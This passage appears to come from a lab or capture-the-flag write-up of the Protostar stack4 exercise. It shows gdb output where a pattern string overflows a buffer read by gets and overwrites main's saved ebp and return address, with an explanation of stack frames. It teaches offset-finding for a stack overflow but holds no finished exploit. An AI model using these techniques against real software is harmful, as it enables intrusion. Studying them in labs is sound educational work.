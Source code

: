 ```
0x08048418      15      in stack4/stack4.c
0x08048418 <main+16>:    e8 ef fe ff ff call   0x804830c <gets@plt>
(gdb)
aaaaaaaaaabbbbbbbbbbccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjj
16      in stack4/stack4.c
0x0804841d <main+21>:    c9     leave
0x0804841e <main+22>:    c3     ret
(gdb) x/50x 0xbffff760
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0x61616161      0x61616161      0x62626161      0x62626262
0xbffff780:     0x62626262      0x63636363      0x63636363      0x64646363
0xbffff790:     0x64646464      0x64646464      0x65656565      0x65656565
0xbffff7a0:     0x66666565      0x66666666      0x66666666      0x67676767
0xbffff7b0:     0x67676767      0x68686767      0x68686868      0x68686868
0xbffff7c0:     0x69696969      0x69696969      0x6a6a6969      0x6a6a6a6a
0xbffff7d0:     0x6a6a6a6a      0xffffff00      0xb7ffeff4      0x0804824b
0xbffff7e0:     0x00000001      0xbffff820      0xb7ff0626      0xb7fffab0
0xbffff7f0:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff800:     0xbffff838      0xd5816fca      0xffd699da      0x00000000
0xbffff810:     0x00000000      0x00000000      0x00000001      0x08048340
0xbffff820:     0x00000000      0xb7ff6210
```
The output tells us two things
1. Our input changed the return address of `main` (ie address that `main` returns to) to *0x68686868*.
2. Our input changed the `ebp` of the function that called main to *0x68686868*. "Why?", you may ask. Recall that when a new function is called, a new stack frame is created. The `ebp` of the new stack frame is the `esp` of the old one. So, the `ebp` of the old stack frame is pushed to the stack for safe keeping until the new stack frame is removed (ie when the function returns to the caller).

So, when `0x804841d: c9    leave` was executed, the program tried to pop the value of the old `ebp` (which has been overwritten by our input) from the stack into the register `ebp`. 
```
(gdb) ni
0x0804841e in main (argc=Cannot access memory at address 0x68686870) at stack4/stack4.c:16
16      in stack4/stack4.c
0x0804841e <main+22>:    c3     ret

(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7bc       0xbffff7bc
ebp            0x68686868       0x68686868
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

